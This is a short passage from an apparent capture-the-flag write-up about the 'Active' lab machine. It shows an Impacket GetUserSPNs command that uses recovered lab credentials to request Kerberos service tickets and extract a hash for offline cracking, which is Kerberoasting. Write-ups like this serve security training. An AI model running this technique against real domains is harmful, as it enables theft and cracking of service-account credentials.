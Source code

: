 ### Impacket

**Impacket**’s **GetUserSPNs.py** lets us request the **TGS** and extract the hash to futher offline cracking.

![PE](./Screenshots/activepe2.png)

![PE](./Screenshots/activepe3.png)

It is time to type:

```
impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip {target ip} -request
```

![PE](./Screenshots/activepe4.png)
